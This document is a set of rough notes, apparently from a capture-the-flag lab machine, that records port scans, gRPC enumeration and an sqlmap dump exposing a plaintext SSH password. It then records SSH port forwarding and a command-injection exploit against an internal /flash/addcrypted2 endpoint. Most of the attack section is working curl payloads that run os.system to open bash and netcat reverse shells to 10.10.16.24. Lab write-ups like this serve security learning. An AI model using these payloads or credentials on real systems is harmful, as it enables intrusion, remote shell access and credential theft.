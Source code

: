 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3      *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207      *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
50051/tcp open  unknown

none o fwhich give us rce

![](20230618140630.png)

└─$ gobuster dir --url http://10.10.11.214:50051 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.214:50051
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/18 19:19:36 Starting gobuster in directory enumeration mode
===============================================================

Error: error on running gobuster: unable to connect to http://10.10.11.214:50051/: Get "http://10.10.11.214:50051/": net/http: HTTP/1.x transport connection broken: malformed HTTP status code "\x00\xfe\x03\x00\x00\x00\x01\x00\x00\x04\b\x00\x00\x00\x00\x00\x00?\x00\x00"


gobuster not working

https://www.youtube.com/watch?v=fGG7BMS-RZI

rustscan can be better than nmap

50051 is grpc

grpccui

can expose the methods

admin user exists

through sqlmap sau:HereIsYourPassWord1431

sqlmap -r req --batch --dump

ss -tn1

curl http://127.0.0.1:8000


we see that there is website running at 8000
we can port forward

ssh -L 9000:127.0.0.1:8000 sau@10.10.11.214

![](20230618200124.png)


we have an arbitary command execution vuln

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:9000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'
```

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Mon, 19 Jun 2023 00:04:39 GMT
Server: Cheroot/8.6.0

Could not decrypt key   


curl -i -s -k -X $'POST' \
    --data-binary $'jk=%0Apyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B%0Af=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"nc%2010.10.16.24%201234");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.24/1234 0>&1'");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A



curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A
");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'


%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=pyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'


pyimport os;os.system("./tmp/script.sh");f=function f2(){};

pyimport os;os.system("nc 10.10.16.24 1234");
pyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3B

# trying netcat as /dev/tcp doesnot exists

nc -e /bin/sh 10.10.16.24 1234
pyimport%20os;os.system("nc%20-e%20/bin/sh%2010.10.16.24%201234");
pyimport%20os%3Bos.system(%22nc%20-e%20%2Fbin%2Fsh%2010.10.16.24%201234%22)%3B%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system("nc%20-e%20/bin/sh%2010.10.16.24%201234");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'